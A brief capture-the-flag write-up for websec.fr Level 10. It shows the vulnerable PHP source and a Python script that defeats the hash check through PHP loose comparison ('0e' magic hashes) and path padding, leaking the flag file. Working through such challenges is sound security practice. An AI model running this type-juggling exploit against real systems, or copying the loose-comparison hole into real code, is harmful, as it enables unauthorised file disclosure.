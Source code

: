# Level 10

```php
<?php include "flag.php"; ?>
<?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
        ?>
```

$_REQUEST contains all of $_GET,$_POST and stuff

okay i looked at the writeups for this one, after trying for over 1 week, so it was just exploiting the loose comparison

here is the exploit code, as .///// would still execute the same file

```py
import requests

prefix = "./"
while True:
    r = requests.post("http://websec.fr/level10/index.php", data={
        'hash': "0e12345",
        'f': prefix + 'flag.php'
    })

    if "WEBSEC{" in r.text:
        print(r.text)
        break

    prefix += "/"

```
